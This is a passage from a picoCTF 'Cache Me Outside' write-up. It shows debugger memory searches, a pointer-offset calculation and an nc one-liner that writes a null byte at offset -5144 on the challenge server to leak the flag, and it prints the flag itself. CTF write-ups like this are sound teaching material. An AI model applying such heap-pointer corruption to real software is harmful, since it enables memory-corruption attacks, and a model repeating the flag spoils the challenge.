 Now we need to find whoever is pointing to that buffer address, so that we can change it. We search for `0x603890` in the memory:

```
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffe240 - 0x7fffffffe24c  →   "\x90\x38\x60[...]"
```

We find two results. We probably need the one on the heap (`0x602088`). We just need to calculate it's relative offset from `p_buf_first`, which is the address that the program uses as the base offset for the value change.

```
gef>  p/d 0x602088 - 0x6034a0
$6 = -5144
```

We'll change the value at offset `-5144` to `0x0` in order to point to somewhere within the previous allocation:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ { echo "-5144"; printf "\x00";} | nc mercury.picoctf.net 8054
You may edit one byte in the program.
Address: Value: lag is: picoCTF{5c9838eff837a883a30c38001280f07d}
```

The flag: `picoCTF{5c9838eff837a883a30c38001280f07d}`